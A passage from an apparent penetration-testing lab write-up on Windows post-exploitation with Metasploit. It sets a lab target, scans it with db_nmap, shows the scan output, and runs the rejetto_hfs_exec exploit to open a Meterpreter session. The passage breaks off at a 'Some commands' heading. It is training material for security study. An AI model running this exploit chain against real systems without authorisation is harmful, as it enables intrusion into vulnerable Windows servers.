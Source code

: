 # 🔬 Windows Post Exploitation - MSF

## Lab 1 - HTTP/HFS <a href="#lab-1-http-hfs" id="lab-1-http-hfs"></a>

> 🔬 Same [HFS Exploitation lab](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp)
>
> * Target IP: `10.0.23.57`
> * Metasploit **`post/multi/manage/shell_to_meterpreter`** module

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.23.57
setg RHOST 10.0.23.57
workspace -a Windows_PostExp
```

* Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.0.23.57
```

```bash
[*] Nmap: Nmap scan report for 10.0.23.57
[*] Nmap: Host is up (0.0024s latency).
[*] Nmap: Not shown: 991 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               HttpFileServer httpd 2.3
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
run
```

* In the new `Meterpreter` session, enumerate the Windows target

### Some commands <a href="#some-commands" id="some-commands"></a>
